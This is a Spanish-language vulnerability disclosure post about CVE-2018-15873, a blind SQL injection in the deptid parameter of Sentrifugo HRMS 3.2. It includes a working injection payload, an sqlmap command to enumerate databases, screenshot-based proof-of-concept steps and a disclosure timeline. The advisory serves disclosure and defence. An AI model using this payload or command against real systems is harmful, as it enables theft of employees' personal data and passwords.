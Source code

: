 +++
date = "2018-08-26"
title = "CVE-2018-15873 Sentrifugo HRMS 3.2 - Blind SQL Injection"
author = "Javier Olmedo"
toc = false
+++

Esta entrada tiene como objetivo hacer pública la vulnerabilidad [Blind SQL Injection](https://www.owasp.org/index.php/Blind_SQL_Injection) descubierta en el software [Sentrifugo HRMS 3.2](http://www.sentrifugo.com/download), la vulnerabilidad ha sido asociada al [CVE-2018-15873](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2018-15873).

## Sentrifugo HRMS 3.2 - CVE-2018-15873

### Blind SQL Injection

[![/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_001.png](/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_001.png)](/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_001.png)

Sentrifugo es un software open source que facilita la **administración de recursos humanos** en las organizaciones. Está **repleto de módulos** esenciales como evaluación, gestión del tiempo, gestión de licencias, gestión de empleados, análisis, contratación, verificación de antecedentes, servicio técnico y mucho más. Permite a los empleados **contribuir de manera efectiva y productiva** a los objetivos de la organización.

- 📅 Vulnerabilidad descubierta por [Javier Olmedo](https://twitter.com/JJavierOlmedo) el **30/07/2018**
- 💣 Publicada el **26/08/2018**
- 🐛 [CVE-2018-15873](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15873)
- 🔗 Link del software [Sentrifugo HRMS](http://www.sentrifugo.com/download)
- 🐞 Versión vulnerable = **3.2 y posiblemente anteriores**

## Vector de ataque / Criticidad de la explotación

### CRITICIDAD - 🟣 CRÍTICA 🟣

A través de las vulnerabilidades [Blind SQL Injection](https://www.owasp.org/index.php/Blind_SQL_Injection), un usuario malintencionado podría **leer información de la base de datos que utiliza la aplicación** en base a preguntas de verdadero o falso con el objetivo de **extraer información sensible o confidencial** como contraseñas o datos personales de otros usuarios.

## Parámetros vulnerables

El parámetro `deptid`, es vulnerable a **Blind SQL Injectión** mediante petición **POST** en el recurso `/index.php/servicedeskconf/getemployees/format/html`

**💉 Payload**

```txt
bunitid=0&deptid=(SELECT (CASE WHEN (5610=5610) THEN 5610 ELSE 5610*(SELECT 5610 FROM INFORMATION_SCHEMA.PLUGINS) END))&reqfor=2**
```

📷 **Captura de pantalla de SQLmap lanzando el comando**

```bash
sqlmap -r poc.req -p deptid --dbms=MySQL --dbs
```

[![/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_002.png](/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_002.png)](/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_002.png)

## Prueba de concepto (PoC)

1.  Si añadimos el caracter `'` en el parámetro `deptid` obtenemos un **código 500** (error en la aplicación)

1.1 Petición

[![/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_003.png](/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_003.png)](/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_003.png)

1.2 Respuesta

[![/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_004.png](/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_004.png)](/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_004.png)

2. En cambio, al añadir dos `'`, obtenemos un **código 200** **OK**

2.1 Petición

[![/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_005.png](/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_005.png)](/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_005.png)

2.2 Respuesta

[![/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_006.png](/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_006.png)](/images/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection/cve-2018-15873-sentrifugo-hrms-3-2-blind-sql-injection_006.png)

## Timeline

- **30/07/2018** Descubrimiento
- **30/07/2018** Informo al desarrollador
- **02/08/2018** Abro issue en GitHub
- **25/08/2018** Solicito CVE
- **25/08/2018** MITRE me asigna el CVE-2018-15873
- **26/08/2018** Hago pública la vulnerabilidad

## Referencias

- CVE-MITRE - [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15873](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15873)

Un saludo a todos!! 👋